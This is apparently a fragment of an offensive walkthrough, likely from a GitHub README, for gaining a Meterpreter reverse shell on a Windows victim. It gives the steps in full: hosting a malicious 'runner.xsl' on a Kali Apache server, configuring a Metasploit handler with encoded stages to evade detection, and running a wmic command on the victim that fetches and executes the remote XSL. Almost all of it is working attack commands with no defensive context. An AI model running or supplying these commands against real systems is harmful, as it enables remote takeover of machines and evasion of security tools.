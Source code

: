 3\. Rename the file to runner.xsl, and host it on your Kali machine. Remember to do:\
`sudo systemctl restart apache2`

4\. Prepare for shell:
```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
set EnableStageEncoding true
set StageEncoder x64/xor_dynamic
exploit
```

5\. Run the following in victim:\
`wmic process get brief /format:"http://IP/runner.xsl"`



